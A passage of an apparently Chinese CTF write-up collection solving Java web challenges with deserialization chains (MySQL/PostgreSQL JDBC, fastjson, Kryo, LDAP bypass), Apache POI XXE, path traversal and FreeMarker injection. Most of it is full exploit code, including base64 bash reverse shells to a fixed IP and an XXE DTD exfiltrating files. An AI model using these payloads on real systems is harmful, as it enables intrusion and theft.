5、然后使用`ysoserial生成CC链子写入payload里面`，通过`CookieData`即可成功

```plain
package gdufs.challenge.web;

import gdufs.challenge.web.invocation.InfoInvocationHandler;
import gdufs.challenge.web.model.DatabaseInfo;
import gdufs.challenge.web.model.Info;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Proxy;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws Exception{
        DatabaseInfo databaseInfo = new DatabaseInfo();
        databaseInfo.setHost("120.79.29.170");
        databaseInfo.setPort("3309");
        databaseInfo.setUsername("root");
        databaseInfo.setPassword("123123&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor");
        InfoInvocationHandler infoInvocationHandler = new InfoInvocationHandler(databaseInfo);
        Info info =(Info) Proxy.newProxyInstance(databaseInfo.getClass().getClassLoader(), databaseInfo.getClass().getInterfaces(), infoInvocationHandler);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(info);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

    }

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205235-9e608330-b6c9-1.png)

至于mysql-connect8版本中的jdbc反序列化整个流程的简单分析如下：

-   首先会进入`NonRegisteringDriver#connect`方法实例化一个`ConnectionImpl`类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205241-a1d9caf8-b6c9-1.png)

-   经过一系列的初始化进入到`ConnectionImpl#createNewIO`方法中，如果`autoReconnect`获取不到值，进入`connectOneTryOnly`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205245-a4710aba-b6c9-1.png)

-   随后就会设置对mysql服务器进行连接，然后设置`Interceptors`为payload中的`ServerStatusDiffInterceptor`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205249-a685106c-b6c9-1.png)

-   如果设置的`queryInterceptors`不为空，会进入`NaticeProtol#invokeQueryInterceptorsPre`中触发`NoSubInterceptorWrapper#preProcess`进行拦截，`preProcess`会进入到`ServerStatusDiffInterceptor#populateMapWithSessionStatusValues`方法，执行`Show SESSION STATUS`查询后将结果存储到`toPopluate`中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120183156-22daed0c-b77f-1.png)

-   最终会进入`ResultSetImpl#getObject`方法中，当`columnIndex=2`时，会执行后面的代码，判断MySQL类型为BLOB后，从MySQL服务端中获取对应的字节码数据、并且当`` `autoDeserialize ``，就会将获取到的字节码数据反序列化。
    
    ```plain
    case BLOB:
                     if (field.isBinary() || field.isBlob()) {
                         byte[] data = getBytes(columnIndex);
                         if (this.connection.getPropertySet().getBooleanProperty(PropertyKey.autoDeserialize).getValue()) {
                             Object obj = data;
                             if ((data != null) && (data.length >= 2)) {
                                 if ((data[0] == -84) && (data[1] == -19)) {
                                     try {
                                         ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
                                         ObjectInputStream objIn = new ObjectInputStream(bytesIn);
                                         obj = objIn.readObject();
                                         objIn.close();
                                         bytesIn.close();
                                     } catch (ClassNotFoundException cnfe) {
                                         throw SQLError.createSQLException(Messages.getString("ResultSet.Class_not_found___91") + cnfe.toString()
                                                 + Messages.getString("ResultSet._while_reading_serialized_object_92"), getExceptionInterceptor());
                                     } catch (IOException ex) {
                                         obj = data; // not serialized?
                                     }
                                 } else {
                                     return getString(columnIndex);
                                 }
                             }
    
                             return obj;
                         }
    
                         return data;
                     }
    ```
    

# \[红明谷CTF 2021\]JavaWeb

1、进入页面访问`/login`可以看到只有`/json` ，访问`/json`发现呗重定向回了`/login` ，但是url上面多了`/login;jsessionid=35644838E2C7601CF664314DA3CEE590`这样的字眼，很明显是`Shiro`框架，尝试下`Shiro`权限绕过，确实绕过成功了，并且发现了报错，用的是`jackson`框架。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120183207-2945ad12-b77f-1.png)

2、尝试下`JdbcSetImple`链子，发现打不通，触发了`security`，再试其它链，包括`CC`链，`ClassPathXmlApplicationContext`链都不通。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205318-b7e8de88-b6c9-1.png)

3、最终是通过`ch.qos.logback.core.db.JNDIConnectionSource`打通了，起一个`RMI服务`，实例化恶意类即可。

```plain
import java.lang.Runtime;
import java.lang.Process;
public class Exploit {
     public Exploit(){
             try{
                 Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzkuMjkuMTcwLzcwMDAgMD4mIDE=}|{base64,-d}|{bash,-i}");
                                }catch(Exception e){
                                            e.printStackTrace();
                                             }
                }
         public static void main(String[] argv){
                         Exploit e = new Exploit();
                            }
}
~
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205331-bfcd9012-b6c9-1.png)

# \[HZNUCTF 2023\]easyjava

1、进入页面，可以看到直接提示了`fastjson1.2.48`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205338-c3d7bee4-b6c9-1.png)

2、`log`应该是`log4j`，试一下，`ldap`服务能够接收到请求，然后就试下普通的反弹shell，但是无论怎么样都反弹不回来(至于它是怎么做到只剩下fastsjon能用的，我也很好奇)，那么这里只能用`fastjson`原生反序列化来打，原生反序列化通过`JSON#toString->json#toJSONString->get方法`，exp如下：

```plain
package com.example.demo;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class exp{
    public exp() {
        try {
            start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static void start() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzkuMjkuMTcwLzcwMDAgMD4mIDE=}|{base64,-d}|{bash,-i}\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "1111");
        setValue(templates, "_tfactory", null);
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
    public static  byte[] serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    static {
        {
            try {
                start();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
}
```

> 这里不能留`package com.example.demo;`，所以需要把代码拖出去IDEA，使用`javac -cp`指定jar包的形式编译成`class`，当编译成`class`后，起一个`ldap`服务器通过`lookup`实例化这个恶意exp的时候，发现并没有成功，它访问了ldap服务，但是没有去python起的服务取文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205346-c89d1712-b6c9-1.png)

3、感觉应该是`java`版本的问题，在高版本的 `java`中，会有`com.sun.jndi.ldap.object.trustURLCodebase=false`导致无法`ldap`攻击，但是可以使用`javaSerializedData`属性绕过，完整的exp如下：

```plain
package com.example.hznuctf2023;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.URL;
//高版本LDAP绕过

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://localhost/#Evail"};
        int port = 6666;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData", Base64.decode("exp的base64"));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

> 代码使用了 `UnboundID LDAP SDK` 库来实现 LDAP 服务器功能。在 `main` 方法中，配置了一个基于内存的 `LDAP` 服务器，并指定了监听的端口号为 `6666`。然后创建了一个 `InMemoryDirectoryServer` 实例，并开始监听指定端口。
> 
> 在 `OperationInterceptor` 内部类中，实现了对 `LDAP` 操作的拦截和处理。在 `processSearchResult` 方法中，处理搜索请求的拦截结果。在 `sendResult` 方法中，构造了一个虚假的 `LDAP` 结果，并将其返回给客户端。
> 
> 在接收返回结果的时候会对`javaSerializedData`进行反序列化处理，可以绕过`trustCodeBase`限制。

```plain
public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("aiwin");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzkuMjkuMTcwLzcwMDAgMD4mIDE=}|{base64,-d}|{bash,-i}\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "1111");
        setValue(templates, "_tfactory", null);
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        byte[] serialize = serialize(val);
        System.out.println(Base64.getEncoder().encodeToString(serialize));

    }
```

4、将`LDAPServer`打包成`jar`，开启，监听端口即可获得反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205357-cedd088a-b6c9-1.png)

# \[网鼎杯 2020青龙组\]FileJava

Apache POI 提供一组用于操作 Microsoft Office 文件的 API，包括读取/写入文档内容、样式、格式和元数zhiqian1据等。通过使用 Apache POI，开发人员可以创建、编辑和保存 Microsoft Office 文件，从而实现对这些文件的自动化处理。它在`4.10`版本之前存在多个漏洞，这题是一个`CVE-20143529`。

漏洞的触发点在`ZipPackage#getPartsImpl`里面，它通过`while`循环遍历所有的`Entry`寻找`[Content_Types].xml`，进入到`ContentTypeManager#parseContentTypesFile`，最终获取到`Document`对象后，通过`builder`类进行`xml`解析导致了xxe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205402-d20ec340-b6c9-1.png)

1、进入页面，发现文件上传，随便上传点东西会发现有文件下载，这里存在目录穿越，可下载所有的`class`文件，但是flag不行。

```plain
DownloadServlet?filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/classes/cn/abc/servlet/DownloadServlet.class

DownloadServlet?filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/classes/cn/abc/servlet/ListFileServlet.class

DownloadServlet?filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/classes/cn/abc/servlet/UploadServlet.class
```

2、分析一下源码，发现在`UploadServlet`中存在一段`org.apache.poi`的代码，能够造成`XXE`。

```plain
Workbook wb1 = WorkbookFactory.create(in);
                                    Sheet sheet = wb1.getSheetAt(0);
                                    System.out.println(sheet.getFirstRowNum());
```

3、直接盲注XXE打，修改`xlsx`中的`Content-Type`文件，在第二行加上`payload`

```plain
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://ip/file.dtd">
%remote;%int;%send;
]>
```

```plain
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:port?p=%file;'>">
```

> 重新压缩后，注意命名必须为excel-开头才会进入到xml解析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205409-d67fd252-b6c9-1.png)

# \[CISCN 2023 西南\]seaclouds

看源码发现只有很小一部分，唯一可疑的部分就是:

```plain
CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
        Message<?> messagecode = codecMessageConverter.toMessage(decodemsg, (MessageHeaders)null);
        return messagecode.getPayload();
```

上gpt搜一下这个类是什么用于消息转换的，分别有两个对应方法`fromMessage`和`ToMessage`，分别对应`encode`和`decode`方法，使用`GenericMessage`进行封装。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205418-dbc36544-b6c9-1.png)

对`decode`方法进行调试，发现它会进到`kryo.readObject()`中，也就是说这里可以触发`kyro`反序列化的打法，`kyro`和`Hessian`是一类的，都是基于`Field`机制，会进入到`hashMap.put`中，因此可以用`Hessian`的链子来打

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205423-de709186-b6c9-1.png)

首先尝试下`templatesImpl`链子

```plain
kyro#readObject()->hashMap#put()->HotSwappableTargetSource#equals()->Xstring#equals()->BaseJsonNode#toString()->templatesImpl#getOutputProperties()
```

```plain
public class Test {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates,"_name","aiwin");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",new byte[][]{getTemplates()});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        POJONode pojoNode=new POJONode(templates);
        HotSwappableTargetSource hotSwappableTargetSource=new HotSwappableTargetSource(1);
        HotSwappableTargetSource hotSwappableTargetSource1=new HotSwappableTargetSource(2);
        HashMap hashMap=new HashMap();
        hashMap.put(hotSwappableTargetSource,"1");
        hashMap.put(hotSwappableTargetSource1,"2");
        setFieldValue(hotSwappableTargetSource,"target",pojoNode);
        setFieldValue(hotSwappableTargetSource1,"target",new XString("a"));
        CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
        GenericMessage genericMessage = new GenericMessage(hashMap);
        byte[] decodemsg = (byte[]) codecMessageConverter.fromMessage(genericMessage, null);
        System.out.println(URLEncoder.encode(Base64.getEncoder().encodeToString(decodemsg), "UTF-8"));
        Message<?> messagecode = codecMessageConverter.toMessage(decodemsg, (MessageHeaders) null);
        messagecode.getPayload(); 
    }
```

发现没通，报了`Null`指针异常，调试进入发现即使给`_factory`赋值了，最终还是会变成`null`从而触发异常，因为`_tfactory`是`transient`修饰的，不能参与序列化和反序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205430-e291945e-b6c9-1.png)

那么可以尝试下二次反序列化，这样就无关`_tfactory`了。

```plain
kyro#readObject()->hashMap#put()->HotSwappableTargetSource#equals()->Xstring#equals()->BaseJsonNode#toString()->SignedObject#getObject()->HashMap#readObject()->templatesImpl#getOutputProperties()
```

然后直接运行就能够打通，这里还尝试了一下`spring aop`那些链子，发现都是空指针异常，打不成功。

```plain
public class Test {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates,"_name","aiwin");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",new byte[][]{getTemplates()});
        POJONode pojoNode=new POJONode(templates);
        HotSwappableTargetSource hotSwappableTargetSource=new HotSwappableTargetSource(1);
        HotSwappableTargetSource hotSwappableTargetSource1=new HotSwappableTargetSource(2);
        HashMap hashMap=new HashMap();
        hashMap.put(hotSwappableTargetSource,"1");
        hashMap.put(hotSwappableTargetSource1,"2");
        setFieldValue(hotSwappableTargetSource,"target",pojoNode);
        setFieldValue(hotSwappableTargetSource1,"target",new XString("a"));
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA"));
        POJONode pojoNode1=new POJONode(signedObject);
        HotSwappableTargetSource hotSwappableTargetSource2=new HotSwappableTargetSource(3);
        HotSwappableTargetSource hotSwappableTargetSource3=new HotSwappableTargetSource(4);
        HashMap hashMap1=new HashMap();
        hashMap1.put(hotSwappableTargetSource2,"1");
        hashMap1.put(hotSwappableTargetSource3,"2");
        setFieldValue(hotSwappableTargetSource2,"target",pojoNode1);
        setFieldValue(hotSwappableTargetSource3,"target",new XString("b"));
        CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
        GenericMessage genericMessage = new GenericMessage(hashMap1);
        byte[] decodemsg = (byte[]) codecMessageConverter.fromMessage(genericMessage, null);
        System.out.println(Base64.getEncoder().encodeToString(decodemsg));
        Message<?> messagecode = codecMessageConverter.toMessage(decodemsg, (MessageHeaders) null);
        messagecode.getPayload();
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205436-e62a4c46-b6c9-1.png)

开始打题目，发现题目是不出网的，打个内存马进去即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205439-e8495fbc-b6c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205442-ea249806-b6c9-1.png)

# \[第六届安洵杯\]ezjava

源码：

```plain
package com.ctf.axb;

import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class IndexController {
    public IndexController() {
    }

    @RequestMapping({"/"})
    public String Index(Model model) {
        return "index";
    }

    @RequestMapping({"/read"})
    @ResponseBody
    public String Make(String exp) {
        byte[] bytes = Base64.getDecoder().decode(exp);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);

        try {
            MyObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
            ois.readObject();
            return ":)";
        } catch (Exception var5) {
            var5.printStackTrace();
            return var5.toString();
        }
    }
}
```

> 只有一个触发反序列化，明示了，求打，但是用了自定义的`MyObjectInputStream`类，重写了`ObjectInputStream`

重写了`ObjectInputStream`的序列化类

```plain
package com.ctf.axb;
import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;
import java.util.Iterator;

public class MyObjectInputStream extends ObjectInputStream {
    private static ArrayList<String> BLACKLIST = new ArrayList();

    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        Iterator var2 = BLACKLIST.iterator();

        String s;
        do {
            if (!var2.hasNext()) {
                return super.resolveClass(desc);
            }

            s = (String)var2.next();
        } while(!desc.getName().startsWith(s));

        throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());
    }

    static {
        BLACKLIST.add("com.sun.jndi");
        BLACKLIST.add("com.fasterxml.jackson");
        BLACKLIST.add("org.springframework");
        BLACKLIST.add("com.sun.rowset.JdbcRowSetImpl");
        BLACKLIST.add("java.security.SignedObject");
        BLACKLIST.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        BLACKLIST.add("java.lang.Runtime");
        BLACKLIST.add("java.lang.ProcessBuilder");
        BLACKLIST.add("java.util.PriorityQueue");
    }
}
```

> 禁了很多常见的链子，禁止使用`jackson`进行原生反序列化，禁止用`spring aop`的打法，禁止了二次反序列化，但是还是留了一些链子，但是都是断的，比如说`CB`链子触发`getter`方法，但是`CB`链常用的入口`PriorityQueue`被禁用了，这里用的还是`CC-3.2.2`，多了一个小版本，会多出一个`checkUnsafeSerialization`函数(找到类的实例化方法可以绕，但是这里显然没有)，最终就还剩下`freemarker`和`postgresql`可以用了，感觉应该是跟`mysql`那打法有点像，通过`CB`触发`getConnection`函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205502-f5b268b0-b6c9-1.png)

搜到这个文章：[CVE-2022-21724](https://xz.aliyun.com/t/11812#toc-5)，是一个`Psql JDBC RCE`，确实是打`psql`无疑了。

再看`start.sh`文件，不给出网，那只能使用文章中`任意文件写入 loggerLevel/loggerFile`来写入模板文件了。

```plain
iptables -P INPUT ACCEPT
iptables -F
iptables -X
iptables -Z
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT 
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A OUTPUT -m state --state NEW -j DROP //阻止所有新的输出连接。
iptables -P OUTPUT DROP  //默认情况下阻止所有输出连接。
iptables -n -L
```

看文章，应该就是里面`shellContent`的内容能够被写入到指定的`file`里面，找一下关于`freemaker`注入的文章，发现这个

[freemarker模板注入](https://www.cnblogs.com/escape-w/p/17326592.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205517-feb634e6-b6c9-1.png)

> 这个刚好是符合这个题目的，它设置了`spring.freemarker.expose-spring-macro-helpers=true`，所以`shellConent`就是这个`payload`的内容。

```plain
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class cve202221724 {
    public static void main(String[] args) throws SQLException {
        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="test";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

现在剩下的问题就是怎么触发`CB`链中的`Compare`方法，在`TreeMap#put()`方法是可以触发`Compare()`或者`CompareTo()`的。

```plain
public V put(K key, V value) {
        Entry<K,V> t = root;
        if (t == null) {
            compare(key, key); // type (and possibly null) check
            root = new Entry<>(key, value, null);
            size = 1;
            modCount++;
            return null;
        }
        int cmp;
        Entry<K,V> parent;
        // split comparator and comparable paths
        Comparator<? super K> cpr = comparator;
        if (cpr != null) {
            do {
                parent = t;
                cmp = cpr.compare(key, t.key);
                if (cmp < 0)
                    t = t.left;
                else if (cmp > 0)
                    t = t.right;
                else
                    return t.setValue(value);
            } while (t != null);
        }
        else {
            if (key == null)
                throw new NullPointerException();
            @SuppressWarnings("unchecked")
                Comparable<? super K> k = (Comparable<? super K>) key;
            do {
                parent = t;
                cmp = k.compareTo(t.key);
                if (cmp < 0)
                    t = t.left;
                else if (cmp > 0)
                    t = t.right;
                else
                    return t.setValue(value);
            } while (t != null);
        }
        Entry<K,V> e = new Entry<>(key, value, parent);
        if (cmp < 0)
            parent.left = e;
        else
            parent.right = e;
        fixAfterInsertion(e);
        size++;
        modCount++;
        return null;
    }
```

至于怎么触发`TreeMap#put()`，题目中留了`CC`链子，可以用前半部分即`TiedMapEntry`来触发，整个链子就是

```plain
BadAttributeValueExpException#readObject()->TiedMapEntry#getValue()->LazyMap#get()->TreeMap#put()
```

所以整个题目的链子就串联起来了:

```plain
BadAttributeValueExpException#readObject()->TiedMapEntry#getValue()->LazyMap#get()->TreeMap#put()->BeanComparator#compare()->BaseDataSource#getConnection()->org.postgresql.Driver#setupLoggerFromProperties()->org.postgresql.Driver#connect()->写入文件
```

整个exp如下：

```plain
package com.app;

import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.postgresql.ds.PGSimpleDataSource;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.util.Base64;
import java.util.TreeMap;

public class psqlConnection {

    public static void main(String[] args) throws SQLException, NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        String loggerLevel="debug";
        String loggerFile="/app/templates/index.ftl";
        String shellContent="<#assign ac=springMacroRequestContext.webApplicationContext>\n"+"<#assign fc=ac.getBean('freeMarkerConfiguration')>\n"+"<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n"+"<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>/${\"freemarker.template.utility.Execute\"?new()(\"ls /\")}";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        PGSimpleDataSource pgSimpleDataSource=new PGSimpleDataSource(); //DataSource子类
        pgSimpleDataSource.setURL(jdbcUrl);
        BeanComparator beanComparator=new BeanComparator();
        setFieldValue(beanComparator, "property", "connection");
        TreeMap treeMap=new TreeMap(beanComparator);
        ConstantFactory constantFactory=new ConstantFactory("1");
        LazyMap lazyMap= (LazyMap) LazyMap.decorate(treeMap,constantFactory);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,pgSimpleDataSource);
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",tiedMapEntry);
        byte[] result=serialize(badAttributeValueExpException);
        String exp=Base64.getEncoder().encodeToString(result);
        System.out.println(exp);

//        byte[] bytes = Base64.getDecoder().decode(exp);
//        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
//        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
//        objectInputStream.readObject();
    }
    public static void setFieldValue(Object obj,String field,Object val) throws NoSuchFieldException, IllegalAccessException {
        Field field1=obj.getClass().getDeclaredField(field);
        field1.setAccessible(true);
        field1.set(obj,val);
    }
    public static  byte[] serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205530-066aa47e-b6ca-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119205533-0847bdb8-b6ca-1.png)

# \[CISCN2023华北\]normal\_snake

直接看源码：

```plain
package com.ctf.controller;

import com.ctf.security.CustomException;
import com.ctf.security.SafeConstructorWithException;
import com.ctf.security.SafeStringException;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;
import org.yaml.snakeyaml.Yaml;

@RestController
public class IndexController {
    public IndexController() {
    }

    @GetMapping({"/"})
    public String index() {
        return "Welcome!";
    }

    @RequestMapping({"/read"})
    public String hello(@RequestParam(name = "data",required = false) String data, Model model) {
        try {
            if (data.contains("!!")) {
                return "pls dont do that!!!";
            } else {
                new SafeConstructorWithException(data);
                Yaml yaml = new Yaml();
                yaml.load(data);
                return "Well done";
            }
        } catch (SafeStringException var4) {
            return "Unsafe data detected!";
        } catch (CustomException var5) {
            return "No way to pass!";
        } catch (Exception var6) {
            return "snake snake snake!";
        }
    }
}
```

> 直接通过`Yaml.load()`加载了传入的data数据，看了下依赖是`snakeyaml-1.30.jar`，存在yaml的反序列化的打法。

再看`SafeConstructorWithException`，过滤了`!! JAVA JNDI JDBC`以及十六进制编码的`BadAttributeValueExpException HotSwappableTargetSource`

```plain
package com.ctf.security;

public class SafeConstructorWithException {
    private static final String JAVA_STRING = "JAVA";
    private static final String JNDI_STRING = "JNDI";
    private static final String JDBC_STRING = "JDBC";
    private static final String CUSTOM_STRING1 = "42616441747472696275746556616C7565457870457863657074696F6E";
    private static final String CUSTOM_STRING2 = "486F74537761707061626C65546172676574536F75726365";
    private final String data;

